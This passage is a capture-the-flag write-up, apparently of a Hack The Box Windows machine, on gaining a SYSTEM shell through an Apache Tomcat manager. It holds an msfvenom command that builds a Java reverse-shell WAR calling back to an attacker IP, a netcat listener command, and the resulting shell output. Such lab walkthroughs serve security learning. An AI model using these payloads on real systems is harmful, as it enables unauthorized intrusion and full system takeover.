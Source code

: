 
### Exploit

Let's create a palyload and upload it.

>msfvenom -p java/shell_reverse_tcp lhost=10.10.14.52 lport=9999 -f war > dontclickmebro.war

Go back to the page above and upload it.  Start a netcat listener for 9999.

> nc -nlvp 9999

Open the file you just uploaded in your browser.  You don't even have to copy/paste, just click it in the manager page.  And boom, shell popped.

```
connect to [10.10.14.35] from (UNKNOWN) [10.10.10.95] 49192
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88>whoami
whoami
nt authority\system
```

Wait, seriously?  We're system?  That was easy.  Did they make this vulnerable on purpose?  Let's find out.  [Apache Docs](https://httpd.apache.org/docs/2.4/platform/windows.html)

And I quote:

"By default, all Apache services are registered to run as the system user (the LocalSystem account). The LocalSystem account has no privileges to your network via any Windows-secured mechanism, including the file system, named pipes, DCOM, or secure RPC. It has, however, wide privileges locally.

It is recommended that users create a separate account for running Apache service(s)."

Oh jeez.  So this box is a demonstration of a common misconfig plus leaving a default cred enabled.  But it localsystem the same as system?  Seems that way [MS Docs](https://docs.microsoft.com/en-us/windows/win32/services/localsystem-account)

"The LocalSystem account is a predefined local account used by the service control manager... It has extensive privileges on the local computer, and acts as the computer on the network. Its token includes the NT AUTHORITY\SYSTEM and BUILTIN\Administrators SIDs;"

Well, TIL...

This box was a little too easy.  I wonder if there was another way?  I at least want to poke around Apache.  What if we weren't able to upload that payload?  I do a web search and find this helpful post: [Hackingarticles](https://www.hackingarticles.in/multiple-ways-to-exploit-tomcat-manager/
)

I follow the instructions there to make my own webshell upload.  This is a smaller payload so it might actually be better to put in my cheatsheet.  Here's a screenshot of it in action running systeminfo.

![jerryyhome](/images/jerry6.png)

Well that was fun, rab the flags and we're done.  The biggest lesson for me was beating my head over that stupid password.  My instincts were good and my next step would've been a brute force, which would have eventually found it.
